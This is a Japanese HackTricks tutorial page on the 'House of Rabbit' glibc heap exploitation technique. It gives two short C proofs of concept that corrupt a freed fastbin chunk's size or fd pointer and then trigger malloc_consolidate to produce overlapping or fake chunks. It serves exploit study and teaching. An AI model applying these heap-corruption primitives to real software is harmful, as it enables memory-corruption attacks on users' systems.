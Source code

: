 # ハウス・オブ・ラビット

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を使って、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** をフォローする。**
* **ハッキングテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

### 必要条件

1. **高速ビンのfdポインターまたはサイズを変更する能力**: これは、高速ビン内のチャンクの前方ポインターまたはサイズを変更できることを意味します。
2. **`malloc_consolidate` をトリガーする能力**: これは、大きなチャンクを割り当てるか、トップチャンクをマージすることによって行うことができます。これにより、ヒープがチャンクを統合するようになります。

### ゴール

1. **重複するチャンクを作成する**: 他のチャンクと重なるように1つのチャンクを持たせ、さらなるヒープ操作を可能にします。
2. **偽のチャンクを作成する**: アロケーターをだますために、偽のチャンクをヒープ操作中に正当なチャンクとして扱わせます。

## 攻撃の手順

### POC 1: 高速ビンチャンクのサイズを変更する

**目的**: 高速ビンチャンクのサイズを操作して、重複するチャンクを作成します。

* **ステップ1: チャンクを割り当てる**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **ステップ 2: チャンクを解放する**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **ステップ 3: チャンクサイズの変更**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **ステップ 4: `malloc_consolidate`をトリガーする**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
大きなチャンクを割り当てると、`malloc_consolidate` 関数がトリガーされ、ファストビン内の小さなチャンクがマージされます。`chunk1` の操作されたサイズにより、`chunk2` と重なるようになります。

統合後、`chunk1` は `chunk2` と重なり、さらなる悪用が可能になります。

### POC 2: `fd` ポインタの変更

**目標**: ファストビンの `fd` ポインタを操作してフェイクチャンクを作成します。

* **ステップ 1: チャンクの割り当て**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**説明**: 2つのチャンクを割り当て、1つは小さく、もう1つは大きくして、フェイクチャンクのためにヒープをセットアップします。

* **ステップ2: フェイクチャンクの作成**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **ステップ 3: `chunk1`を解放する**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**説明**: `chunk1`を解放し、それをfastbinリストに追加します。

* **ステップ4: `chunk1`の`fd`を修正**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**説明**: `chunk1`の前方ポインタ(`fd`)を`chunk2`内のフェイクチャンクを指すように変更します。

* **ステップ 5: `malloc_consolidate`をトリガーする**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
再度大きなチャンクを割り当てると、`malloc_consolidate` がトリガーされ、偽のチャンクが処理されます。

偽のチャンクは fastbin リストの一部となり、さらなる悪用のための正当なチャンクとなります。

### 要約

**House of Rabbit** テクニックは、高速ビンチャンクのサイズを変更して重複するチャンクを作成するか、`fd` ポインタを操作して偽のチャンクを作成することを含みます。これにより、攻撃者はヒープ内で正当なチャンクを偽造し、さまざまな形式の悪用を可能にします。これらの手順を理解し実践することで、ヒープの悪用スキルを向上させることができます。
